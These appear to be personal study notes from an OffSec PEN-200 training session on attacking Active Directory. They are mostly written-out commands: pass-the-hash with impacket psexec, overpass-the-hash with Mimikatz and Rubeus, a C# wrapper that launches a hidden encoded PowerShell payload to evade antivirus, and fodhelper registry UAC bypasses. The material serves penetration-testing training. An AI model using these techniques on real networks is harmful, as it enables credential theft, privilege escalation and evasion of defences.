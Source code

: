 # OffSec Live: PEN-200

* **author**:: Nathan Acks  
* **date**:: 2022-09-02

## Active Directory Enumeration & Exploitation, Part 4

LM hashes aren't used in WIndows anymore, and often empty or garbage values will work fine when passing a full NTLM hash (only the NT hash is important).

```bash
proxychains python3 \
	/usr/share/doc/python3-impacket/examples/psexec.py \
	-hashes ${LM_HASH}:${NT_HASH} ${USER}@${MACHINE}
```

There's a technique called "overpass the hash" that allows you to take advantage of accounts that are authorized to interact with services but *not* machines on a domain. The idea behind overpass-the-hash is to request a ticket from the domain controller for one user but then use that as the authentication credentials for a different user when running a command. This allows you to be logged in as, say, a service account but then use the credentials for a domain admin to interact with the domain controller. Stealthy!

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NT_HASH /run:$COMMAND"'
```

Note that the "NTLM" hash in the Mimikatz command line is actually just the NT hash.

Another reason to use overpass-the-hash is to be able to interact with services that are restricted to certain users who do *not* have login permissions. This is a common(ish) technique for securing services on a domain.

Note that whenever an overpass-the-hash attack, the output of whoami will become desynced to your network credentials - whoami will still show the user you're logged into, but the domain credentials you use on the network will be those of the user whose hash you "overpassed".

Rubeus can be used to *remove* tickets from an account.

```powershell
Rubeus.exe purge
```

You can also use Rubeus to grab new tickets from a domain controller for a user in an overpass-the-hash attack.

```powershell
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NT_HASH /ptt
```

Note that Rubeus is generally detected by Windows AV these days.

The whole point of all of this is that when interacting with remote computers in an Active Directory domain, what matters is the *hash* you present, *not* the local user!

Many large companies will enable PowerShell Remoting on all machines in order to ease IT support burdens (by default, remoting is only enabled on domain controllers).

```powershell
Invoke-Command -ComputerName $MACHINE `
	-ScriptBlock {$COMMANDS_TO_RUN}
```

Remoting can be used to create a reverse shell.

```powershell
$SESSION_NAME = New-PSSession -ComputerName "$MACHINE"
Enter-PSSession -Session $SESSION_NAME
```

You need to be logged in as a user with permission to use PowerShell for remote administration, however, or be using overpass-the-hash to get an equivalent set of credentials.

C# can be used to bypass AV (at least as of September 2022) - just create a C# wrapper that fires up a PowerShell one-liner. (Sometimes this will need to be modified slightly to bypass AV, but generally you don't have to tweak this code much - C# analysis doesn't seem to be particularly robust for most AV products.)

```c#
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
```

This can be compiled using PowerShell - perhaps even on the target itself. What's the advantage to doing this? You can use Invoke-Mimikatz to run this binary remotely to quickly obtain a remote shell with the permissions of the user you're impersonating with overpass-the-hash (this is a way of getting a shell on a machine that you can interact with, but aren't allowed to open a shell on directly).

```powershell
$code = @"
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
"@
Add-Type -outputtype consoleapplication -outputassembly $BINARY_NAME -TypeDefinition $code -Language CSharp
```

The fodhelper binary can be abused to gain an admin shell on Windows boxes with two registry key changes.

```powershell
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe"
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```

Note that if you try to put powershell.exe into this, Defender will block the shell from being opened (in fact, the key value will be cleared on run). Other AV tools will even detect cmd.exe. It looks like this can be bypassed, however, by using the CurVer registry key to point fodhelper.exe to a different registry location:

```powershell
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
	-Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" `
	-Name "(default)" -value ".pwn" -Force
```

* [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
